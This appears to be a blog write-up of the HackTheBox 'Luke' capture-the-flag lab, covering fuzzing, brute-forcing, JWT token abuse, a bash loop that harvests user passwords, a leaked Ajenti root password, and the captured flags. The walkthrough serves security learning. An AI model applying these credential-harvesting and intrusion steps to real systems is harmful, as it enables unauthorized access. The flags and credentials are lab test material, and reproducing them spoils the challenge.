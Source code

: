 ```yaml
---
title: "Luke - HackTheBox"
date: 2019-07-27T17:39:53+02:00
tags:
    - "HackTheBox"
    - "CTF"
---
```

![Information](/images/hackthebox/luke/info.png)

# Information gathering
Let's start with the usual information gathering steps:

![Port scan](/images/hackthebox/luke/nmap.png)

There's a FTP server on port 21, let's check what's on it:
![FTP](/images/hackthebox/luke/ftp.png)

In the webapp folder there's a txt file:
![Text file](/images/hackthebox/luke/txt.png)

Let's see what's on the web server on port 80:
![Web](/images/hackthebox/luke/web.png)

Navigating through the website and checking the sources we do not find anything
useful.

Let's run [ffuf](https://github.com/ffuf/ffuf) to search directories and files:
```
$ ffuf -w raft-large-directories.txt -r -u http://10.10.10.137/FUZZ 
$ ffuf -w raft-large-files.txt -r -u http://10.10.10.137/FUZZ 
```

I'm using two wordlists, one for directories and one for files. They both are
from the [SecLists](https://github.com/danielmiessler/SecLists) repository:
![Ffuf directories](/images/hackthebox/luke/ffuf.png)
![Ffuf files](/images/hackthebox/luke/ffuf2.png)

# Exploration

In the `/management` directory there's a login made with HTTP basic
authentication:
![Management](/images/hackthebox/luke/management.png)

In the `login.php` page there is a login form:
![Login](/images/hackthebox/luke/login.png)

Trying [hydra](https://github.com/vanhauser-thc/thc-hydra) on both of them gives
us no results.

The `config.php` file contains something interesting:
![Config](/images/hackthebox/luke/config.php.png)

Let's check the web server on port 3000:
![NodeJS](/images/hackthebox/luke/nodejs.png)

Searching the error message on Google, we find that the token must be provided
in the `GET` request using the `X-Access-Token` header. Let's fire up Burp and
try:
![Token](/images/hackthebox/luke/token.png)

It's getting recognized, but, obviously, it's not a valid token. After a bit of
googling we find that to authenticate using JWT Tokens we must make a `POST`
request to the endpoint providing the username and the password.

You can find a good explanation about JWT [here](https://medium.com/swlh/a-practical-guide-for-jwt-authentication-using-nodejs-and-express-d48369e7e6d4).

Let's search any valid path on port 3000:
![Ffuf 3000](/images/hackthebox/luke/ffuf-3000.png)

Let's use wfuzz with the password found in `config.php` with a list of usernames
to try to get a token:
![Wfuzz JWT](/images/hackthebox/luke/wfuzz-jwt.png)

We see that the username admin gives us a `200` response code. Let's make the
request with `curl` to see the result:
![Token](/images/hackthebox/luke/curl-token.png)

Now we can use the token to authenticate by sending it in the `X-Access-Token`
header in our requests.

Let's try to use it to access the previous found directory:
![Users JWT](/images/hackthebox/luke/jwt-users.png)

By trying to do the same request to `/users/admin`, I got the admin password, so
because I like to automate things, I wrote a script that makes a request for
every user
```bash
#!/bin/bash

declare -a users=("admin" "derry" "yuri" "dory")

for user in "${users[@]}"; do
    curl -s -X GET -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY0NTk2MTIyLCJleHAiOjE1NjQ2ODI1MjJ9.QKBqdc7fAcMY7dVB-ruizMdmcUNm3KheoX1kwSuB68k" http://10.10.10.137:3000/users/$user | jq
done
```
![Passwords JWT](/images/hackthebox/luke/jwt-passwords.png)

`jq` is used to beautify the `JSON`.

By trying the credentials in the logins founds previously, we get access to the
`/management` endpoint with the user Derry:
![Management login](/images/hackthebox/luke/management-login.png)

The only interesting file is `config.json`:
```json
{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
            }, 
            "password": "KpMasng6S5EtTy9Z", 
            "permissions": []
        }
    }, 
    "language": "", 
    "bind": {
        "host": "0.0.0.0", 
        "port": 8000
    }, 
    "enable_feedback": true, 
    "ssl": {
        "enable": false, 
        "certificate_path": ""
    }, 
    "authentication": true, 
    "installation_id": 12354
    }
```

We find the username and password `(root:KpMasng6S5EtTy9Z)` for the Ajenti panel
running on port `8000`. This is the administration panel:
![Ajenti](/images/hackthebox/luke/ajenti.png)

On the left, in the terminal section, we have access to a shell:
![Root](/images/hackthebox/luke/root.png)

To my surprise, this is a root shell, so during my workflow I must have skipped
some steps.

## User flag
```
58d441e500e8941f9cf3baa499e2e4da
```
## Root flag
```
8448343028fadde1e2a1b0a44d01e650
```
